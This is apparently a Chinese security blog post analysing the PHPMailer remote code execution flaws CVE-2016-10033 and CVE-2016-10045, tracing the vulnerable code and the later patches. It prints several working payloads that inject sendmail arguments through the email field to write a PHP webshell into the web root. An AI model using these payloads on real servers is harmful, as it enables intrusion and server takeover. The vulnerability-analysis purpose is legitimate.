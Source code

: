 ```yaml
---
title: phpmailer RCE漏洞分析
date: 2016-12-28 21:28:12
tags:
- php
- phpmailer
- cve
---
```



最近爆出来个CVE-2016-1003，国内人分析了两天发现ying

是国外十几年前发现的漏洞，分析了两天发现影响覆盖越来越严重，现在最新的patch也被绕过了，又爆了新的cve...

[朋友的博客](http://0x48.pw/2016/12/28/0x29/)

<!--more-->

# CVE-2016-1003 #

最早爆出来的版本是这样的

[http://seclists.org/oss-sec/2016/q4/750](http://seclists.org/oss-sec/2016/q4/750)

漏洞详情
[https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html)

环境，poc，exp相关
[https://github.com/opsxcq/exploit-CVE-2016-10033](https://github.com/opsxcq/exploit-CVE-2016-10033)

漏洞有一些基本要求：
1、php version < 5.2.0
2、phpmailer < 5.2.18
3、php 没有安装 pcre（no default）
4、safe_mode = false（default）

漏洞和这个差不多
[http://blog.knownsec.com/2016/12/roundcube-1-2-2-远程命令执行漏洞-漏洞分析/](http://blog.knownsec.com/2016/12/roundcube-1-2-2-远程命令执行漏洞-漏洞分析/)

其实问题主要是在mail函数的第五个参数过滤不严明，导致了命令执行。

追踪代码到这里

![image_1b52an7jpsoco77r7bsat15i9g.png-69.5kB][1]

图里应该能看到刚才的第四个条件，也就是safe_mode必须关闭。

然后我们去找这里的params

![image_1b52arked1oro2ss9ekg0r13l6t.png-90.8kB][2]

跟踪`$this->Sender`

![image_1b52ep27a1ij13241g851kvb1ua41a.png-88.8kB][3]

这里的Sender是address输入的，但经过了一次检验，我们可以看看这个函数
之类有个重要的switch

![image_1b52f3fhk1e181tem1v5ejj2qm51n.png-5.8kB][4]

跟踪到下面的noregex

![image_1b52f4frf1klcgsks6g1hvo1jmn24.png-26.8kB][5]

这里的cve-2016-10033就是绕过了这部分，但是我们仍需要使$patternselect为noregex，往上看看

![image_1b52fi2dae5t1fqg1sbe1iedfam2h.png-76.2kB][6]

这里的条件要求是php 没有安装 pcre，也就是上面的条件。

这样一来，我们就可以任意构造mail函数的第五个参数了，就可以随意开火了...

我们看看exp里的这部分请求
```
 name="email"\r\n\r\n\"vulnerables\\\" -OQueueDirectory=/tmp -X/www/backdoor.php server\" @test.com\r\n
```

这里是利用了sendmail写入log的方式，把log写入了web目录下，成功写入了一个webshell

# cve-10045 and bypass pcre正则表达式 #

仔细思考上面流程，有个关键的问题就是：
![image_1b52m2pqb1lbcovj1ldl1rb81tnp2u.png-186.7kB][7]

如果我们能够直接绕过下面的大段正则，我们就可以简化上面的漏洞利用条件，改为
```
phpmailer < 5.2.20 (0day)
php safe_mode = false
```

那么问题来了，怎么分析复杂的正则表达式
[https://www.leavesongs.com/PENETRATION/how-to-analyze-long-regex.html](https://www.leavesongs.com/PENETRATION/how-to-analyze-long-regex.html)

还有好用的正则表达式分析引擎
[https://regex101.com](https://regex101.com)

新的cve提交的是这个payload
```
\"attacker\\' -oQ/tmp/ -X%s/phpcode.php  some\"@email.com
```

我的朋友Hcamael研究了两种
```
a. -OQueueDirectory=/tmp/. -X/tmp/shell.php @a.com
() -OQueueDirectory=/tmp/. -X/tmp/shell.php @a.com
```

github上的exp也修改了新的payload
```
vulnerables\" -OQueueDirectory=/tmp -X/www/backdoor.php server" @test.com
```

还有p神发的
```
a( -X/home/www/backdoor.php -OQueueDirectory=/tmp )@qq.com
“ -X/home/www/backdoor.php -OQueueDirectory=/tmp “@qq.com
```

# phpmailer的修复方式 #

在今天爆出新的10045 cve后，phpmailer更新了新的patch
![image_1b52nsj9b6kmuqn1oab99j1q3j3b.png-97.6kB][8]

这里加入了判断方式，判断过滤过后和过滤前的字符串是否相等。

后来我发现，作者又更新了新的patch，但看聊天记录来看，作者被迫放弃了一部分正常功能，所以怎么修复还需要等等看

[https://github.com/PHPMailer/PHPMailer/pull/930](https://github.com/PHPMailer/PHPMailer/pull/930)

主要问题`escapeshellarg`和`escapeshellcmd`一起处理会出现新的问题，具体可以看我朋友的博客分析

[http://0x48.pw/2016/12/28/0x29/#phpmailer_5-2-19_RCE](http://0x48.pw/2016/12/28/0x29/#phpmailer_5-2-19_RCE)

虽然这个模块在多个cms都有用到，但是在已知的部分cms中，这部分都做了部分处理或者是印象范围较小，危害仍然有待考证


  [1]: http://static.zybuluo.com/LoRexxar/nzvltpfdjyjw0tjfpnxv1j4p/image_1b52an7jpsoco77r7bsat15i9g.png
  [2]: http://static.zybuluo.com/LoRexxar/g72ud34egto723vnsrtxhykt/image_1b52arked1oro2ss9ekg0r13l6t.png
  [3]: http://static.zybuluo.com/LoRexxar/e9y6kzjlgikcv3w1hpm1p7bd/image_1b52ep27a1ij13241g851kvb1ua41a.png
  [4]: http://static.zybuluo.com/LoRexxar/7s0ledhbnfhtu6kla79a8764/image_1b52f3fhk1e181tem1v5ejj2qm51n.png
  [5]: http://static.zybuluo.com/LoRexxar/8em0k0svym31zdcprcywj69s/image_1b52f4frf1klcgsks6g1hvo1jmn24.png
  [6]: http://static.zybuluo.com/LoRexxar/afp452d2iwqhrnw3mq3qteji/image_1b52fi2dae5t1fqg1sbe1iedfam2h.png
  [7]: http://static.zybuluo.com/LoRexxar/bjk8orhggrsc6sddvewqp87l/image_1b52m2pqb1lbcovj1ldl1rb81tnp2u.png
  [8]: http://static.zybuluo.com/LoRexxar/z7qs00dd3qkot6egpladntwk/image_1b52nsj9b6kmuqn1oab99j1q3j3b.png